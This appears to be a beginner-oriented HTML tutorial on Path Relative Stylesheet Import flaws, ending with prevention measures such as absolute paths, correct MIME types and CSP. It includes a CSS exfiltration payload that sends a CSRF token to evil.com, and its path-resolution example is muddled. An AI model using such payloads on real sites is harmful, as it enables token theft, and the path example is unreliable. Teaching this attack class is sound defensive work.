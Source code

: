 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

  <h1>🎯 Path Relative Stylesheet Import (PRSSI) – A Stylish Way to Hack</h1>

  <h2>👶 For Beginners: What is a Stylesheet Import?</h2>
  <p>
    Web pages use CSS (Cascading Style Sheets) to define how things look. These stylesheets are either embedded in the page or imported from external .css files.
  </p>
  <p>
    💡 Think of CSS like a clothing stylist for a webpage – it tells the browser how to dress up the content.
  </p>
  <p>Developers often import styles like this:</p>
  <pre><code>&lt;link rel="stylesheet" href="/styles/theme.css"&gt;</code></pre>
  <p>But if the path to that file is relative and not securely handled, attackers can manipulate it!</p>

  <h2>🚨 What is Path Relative Stylesheet Import Vulnerability (PRSSI)?</h2>
  <p>PRSSI is a web security flaw where attackers trick the application into loading a malicious file as a CSS stylesheet, due to:</p>
  <ul>
    <li>Relative path misconfiguration</li>
    <li>URL manipulation</li>
    <li>Lack of file validation</li>
  </ul>
  <p>This can be abused to steal sensitive information, such as CSRF tokens, usernames, or even perform JavaScript execution in rare cases (depending on the browser).</p>

  <h2>⚠️ How Does It Work?</h2>
  <p>Many web frameworks auto-load stylesheets based on the current URL path, especially when paths are relative.</p>

  <h3>🔥 Attack Scenario</h3>
  <p>A web app uses a relative stylesheet:</p>
  <pre><code>&lt;link rel="stylesheet" href="assets/css/style.css"&gt;</code></pre>
  <p>An attacker tricks the browser into loading:</p>
  <pre><code>https://example.com/malicious/../../admin</code></pre>
  <p>The browser resolves the path and loads:</p>
  <pre><code>https://example.com/admin/assets/css/style.css</code></pre>
  <p>If the attacker controls the /admin/ path or a file named style.css, they can inject CSS that:</p>
  <ul>
    <li>Exfiltrates data using @import or url()</li>
    <li>Forces form auto-fill leaks</li>
    <li>Triggers Cross-Origin CSS (CoCSS) attacks</li>
  </ul>

  <h2>🧪 Realistic Exploitation</h2>
  <p>Example: CSS Data Exfiltration via background-image</p>
  <pre><code>input[name="csrf"] {
  background-image: url("https://evil.com/steal?token=VALUE");
}</code></pre>
  <p>The browser will load the background-image when the input field is rendered, and leak the CSRF token in the request.</p>

  <h2>💥 Why Is This Dangerous?</h2>
  <ul>
    <li>✅ Works even without JavaScript</li>
    <li>✅ Can bypass CSP if stylesheets are allowed</li>
    <li>✅ Exploitable with minimal user interaction</li>
    <li>✅ Can target internal pages like /admin or /settings</li>
  </ul>

  <h2>🛡️ How to Prevent PRSSI Vulnerabilities</h2>
  <ul>
    <li><strong>✔️ Use Absolute Paths</strong><br>Always use absolute paths for stylesheets and other assets:</li>
    <pre><code>&lt;link rel="stylesheet" href="/assets/css/style.css"&gt;</code></pre>
    <p>This ensures that the path doesn't change based on the current URL.</p>

    <li><strong>✔️ Validate and Restrict Paths</strong><br>Prevent attackers from controlling or guessing resource paths:</li>
    <ul>
      <li>Disable directory listing</li>
      <li>Avoid exposing internal directories</li>
      <li>Use route-based whitelisting</li>
    </ul>

    <li><strong>✔️ Set Correct MIME Types</strong><br>Ensure the server sends correct Content-Type headers:</li>
    <pre><code>Content-Type: text/css</code></pre>
    <p>⛔ Block serving HTML, JS, or other files as CSS.</p>

    <li><strong>✔️ Implement a Strict CSP</strong><br>Use a Content Security Policy to prevent loading styles from untrusted sources:</li>
    <pre><code>Content-Security-Policy: style-src 'self';</code></pre>

    <li><strong>✔️ Access Controls & Authentication</strong><br>Don’t rely on obscurity. Restrict access to sensitive areas like /admin/ with proper auth and access control.</li>
  </ul>

  <h2>🚀 Final Thoughts</h2>
  <p>Path Relative Stylesheet Import (PRSSI) may sound like just a design flaw, but it's a sneaky web attack vector that can lead to data leaks and user compromise—all via CSS!</p>
  <p>💡 If your app dynamically builds paths or uses relative styles, treat it like a security concern—not just a design choice.</p>

</body>
</html>
